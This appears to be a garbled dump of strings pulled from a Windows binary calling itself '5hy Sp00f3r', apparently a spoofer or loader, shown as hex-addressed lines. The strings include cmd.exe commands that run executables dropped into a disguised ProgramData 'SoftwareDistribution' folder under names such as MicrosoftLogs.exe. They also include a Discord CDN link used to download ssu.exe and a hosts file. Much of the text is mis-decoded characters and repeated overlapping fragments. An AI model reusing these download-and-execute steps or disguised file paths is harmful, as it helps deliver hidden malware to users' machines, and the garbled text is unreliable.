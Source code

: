 02F24AA9 - cmd.exe开/c C:\\ProgramData\\SoftwareDistribution\\1.exe℀/c md C:\\antiOS唀C:\ProgramData\SoftwareDistribution\OS.batĀ夀C:\ProgramData\SoftwareDistribution\(3)D.exe夀C:\ProgramData\SoftwareDistribution\(4)E.exe夀C:\ProgramData\SoftwareDistribution\(5)F.exe圀C:\ProgramData\SoftwareDistribution\ssu.exe最C:\ProgramData\SoftwareDistribution\(7)TiskKill.exe圀C:\ProgramData\SoftwareDistribution\Mac.exe܀cmd̀1耀⃡ⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀ Āਇ 嬀
02F24ABB - c C:\\ProgramData\\SoftwareDistribution\\1.exe℀/c md C:\\antiOS唀C:\ProgramData\SoftwareDistribution\OS.batĀ夀C:\ProgramData\SoftwareDistribution\(3)D.exe夀C:\ProgramData\SoftwareDistribution\(4)E.exe夀C:\ProgramData\SoftwareDistribution\(5)F.exe圀C:\ProgramData\SoftwareDistribution\ssu.exe最C:\ProgramData\SoftwareDistribution\(7)TiskKill.exe圀C:\ProgramData\SoftwareDistribution\Mac.exe܀cmd̀1耀⃡ⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀ Āਇ 嬀
02F24B1B - c md C:\\antiOS唀C:\ProgramData\SoftwareDistribution\OS.batĀ夀C:\ProgramData\SoftwareDistribution\(3)D.exe夀C:\ProgramData\SoftwareDistribution\(4)E.exe夀C:\ProgramData\SoftwareDistribution\(5)F.exe圀C:\ProgramData\SoftwareDistribution\ssu.exe最C:\ProgramData\SoftwareDistribution\(7)TiskKill.exe圀C:\ProgramData\SoftwareDistribution\Mac.exe܀cmd̀1耀⃡ⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀ Āਇ 嬀
02F24B3D - :\ProgramData\SoftwareDistribution\OS.batĀ夀C:\ProgramData\SoftwareDistribution\(3)D.exe夀C:\ProgramData\SoftwareDistribution\(4)E.exe夀C:\ProgramData\SoftwareDistribution\(5)F.exe圀C:\ProgramData\SoftwareDistribution\ssu.exe最C:\ProgramData\SoftwareDistribution\(7)TiskKill.exe圀C:\ProgramData\SoftwareDistribution\Mac.exe܀cmd̀1耀⃡ⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀ Āਇ 嬀
02F24B95 - :\ProgramData\SoftwareDistribution\(3)D.exe夀C:\ProgramData\SoftwareDistribution\(4)E.exe夀C:\ProgramData\SoftwareDistribution\(5)F.exe圀C:\ProgramData\SoftwareDistribution\ssu.exe最C:\ProgramData\SoftwareDistribution\(7)TiskKill.exe圀C:\ProgramData\SoftwareDistribution\Mac.exe܀cmd̀1耀⃡ⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀ Āਇ 嬀
02F24BEF - :\ProgramData\SoftwareDistribution\(4)E.exe夀C:\ProgramData\SoftwareDistribution\(5)F.exe圀C:\ProgramData\SoftwareDistribution\ssu.exe最C:\ProgramData\SoftwareDistribution\(7)TiskKill.exe圀C:\ProgramData\SoftwareDistribution\Mac.exe܀cmd̀1耀⃡ⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀ Āਇ 嬀
02F24C49 - :\ProgramData\SoftwareDistribution\(5)F.exe圀C:\ProgramData\SoftwareDistribution\ssu.exe最C:\ProgramData\SoftwareDistribution\(7)TiskKill.exe圀C:\ProgramData\SoftwareDistribution\Mac.exe܀cmd̀1耀⃡ⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀ Āਇ 嬀
02F24CA3 - :\ProgramData\SoftwareDistribution\ssu.exe最C:\ProgramData\SoftwareDistribution\(7)TiskKill.exe圀C:\ProgramData\SoftwareDistribution\Mac.exe܀cmd̀1耀⃡ⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀ Āਇ 嬀
02F24CFB - :\ProgramData\SoftwareDistribution\(7)TiskKill.exe圀C:\ProgramData\SoftwareDistribution\Mac.exe܀cmd̀1耀⃡ⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀ Āਇ 嬀
02F24D63 - :\ProgramData\SoftwareDistribution\Mac.exe܀cmd̀1耀⃡ⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀⴀ Āਇ 嬀
02F24DC6 -  -------------------------------------------------------------------------------------------------------------- ܀
 [̀#Ԁ] ᬀ 5hy Sp00f3r 耀梩琀琀瀀猀㨀⼀⼀挀搀渀⸀搀椀猀挀漀爀搀愀瀀瀀⸀挀漀洀⼀愀琀琀愀挀栀洀攀渀琀猀⼀㠀㔀㈀㤀㠀　㄀　　㜀㤀㐀㔀㐀㠀㈀㈀㐀⼀㠀㘀　㄀㘀㐀㐀㈀　　㠀㐀㔀㘀㌀㤀㜀㠀⼀猀猀甀⸀攀砀攀
02F24EBA -  5hy Sp00f3r 耀梩琀琀瀀猀㨀⼀⼀挀搀渀⸀搀椀猀挀漀爀搀愀瀀瀀⸀挀漀洀⼀愀琀琀愀挀栀洀攀渀琀猀⼀㠀㔀㈀㤀㠀　㄀　　㜀㤀㐀㔀㐀㠀㈀㈀㐀⼀㠀㘀　㄀㘀㐀㐀㈀　　㠀㐀㔀㘀㌀㤀㜀㠀⼀猀猀甀⸀攀砀攀
02F24ED7 - https://cdn.discordapp.com/attachments/852980100794548224/860164420084563978/ssu.exe耀梽琀琀瀀猀㨀⼀⼀挀搀渀⸀搀椀猀挀漀爀搀愀瀀瀀⸀挀漀洀⼀愀琀琀愀挀栀洀攀渀琀猀⼀㠀㔀㈀㤀㠀　㄀　　㜀㤀㐀㔀㐀㠀㈀㈀㐀⼀㠀㘀　㄀㘀
02F25000 - 4405303836702/MicrosoftLogs.exe欀C:\ProgramData\SoftwareDistribution\MicrosoftLogs.exe㜀Processing computer info. 
㄀Installing reqiurements.Ԁ 
崀C:\\ProgramData\\SoftwareDistribution\\ssu.exeᄀSp00f1ng耀梫琀琀瀀猀㨀⼀⼀挀搀渀⸀搀椀猀挀漀爀搀愀瀀瀀⸀挀漀洀⼀愀琀琀愀挀栀洀攀渀琀猀⼀㠀㔀㈀㤀㠀　㄀　　㜀㤀㐀㔀㐀㠀㈀㈀㐀⼀㠀㘀　㄀㘀㐀㌀㠀㜀㘀㈀㤀㌀　㄀㜀㜀　⼀栀漀猀琀⸀琀砀琀
02F25042 - :\ProgramData\SoftwareDistribution\MicrosoftLogs.exe㜀Processing computer info. 
㄀Installing reqiurements.Ԁ 
崀C:\\ProgramData\\SoftwareDistribution\\ssu.exeᄀSp00f1ng耀梫琀琀瀀猀㨀⼀⼀挀搀渀⸀搀椀猀挀漀爀搀愀瀀瀀⸀挀漀洀⼀愀琀琀愀挀栀洀攀渀琀猀⼀㠀㔀㈀㤀㠀　㄀　　㜀㤀㐀㔀㐀㠀㈀㈀㐀⼀㠀㘀　㄀㘀㐀㌀㠀㜀㘀㈀㤀㌀　㄀㜀㜀　⼀栀漀猀琀⸀琀砀琀
02F250AE - rocessing computer info. 
02F250E6 - nstalling reqiurements.Ԁ 
崀C:\\ProgramData\\SoftwareDistribution\\ssu.exeᄀSp00f1ng耀梫琀琀瀀猀㨀⼀⼀挀搀渀⸀搀椀猀挀漀爀搀愀瀀瀀⸀挀漀洀⼀愀琀琀愀挀栀洀攀渀琀猀⼀㠀㔀㈀㤀㠀　㄀　　㜀㤀㐀㔀㐀㠀㈀㈀㐀⼀㠀㘀　㄀㘀㐀㌀㠀㜀㘀㈀㤀㌀　㄀㜀㜀　⼀栀漀猀琀⸀琀砀琀